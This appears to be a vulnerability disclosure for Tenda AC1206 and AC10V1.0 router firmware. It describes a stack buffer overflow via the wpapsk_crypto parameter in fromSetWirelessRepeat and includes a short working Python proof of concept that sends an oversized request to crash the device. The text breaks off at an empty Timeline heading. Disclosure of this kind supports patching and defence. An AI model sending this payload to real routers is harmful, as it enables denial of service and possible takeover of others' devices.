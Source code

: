# Tenda AC1206, AC10V1.0 Vulnerability

This vulnerability lies in the `fromSetWirelessRepeat` function which influences the latest version of Tenda AC1206 and AC10V1.0. (The latest version is [V15.03.06.23](https://down.tenda.com.cn/uploadfile/AC1206/US_AC1206V1.0RTL_V15.03.06.23_multi_TD01.zip) and [V15.03.06.47](https://down.tendacn.com/uploadfile/AC10/US_AC10V1.0re_V15.03.06.47_multi_TDE.zip))

## Vulnerability Description

There is a **stack-based buffer overflow** vulnerability in function `fromSetWirelessRepeat`.

In function `fromSetWirelessRepeat` it reads user provided parameter `wpapsk_crypto` into `wpapsk_crypto`, and this variable is passed into function `strcpy` without any length check, which may overflow the stack-based buffer `wpapsk_cryptovalue`.

![Vulnerability Function](./vuln.png)

So by requesting the page `/goform/fromSetWirelessRepeat`, the attacker can easily perform a **DoS** or **RCE** with carefully crafted overflow data.

## PoC

```python
import requests

IP = "10.10.10.1"
url = f"http://{IP}/goform/fromSetWirelessRepeat?"
url += "wpapsk_crypto=" + "s" * 0x200

response = requests.get(url)
```

## Timeline

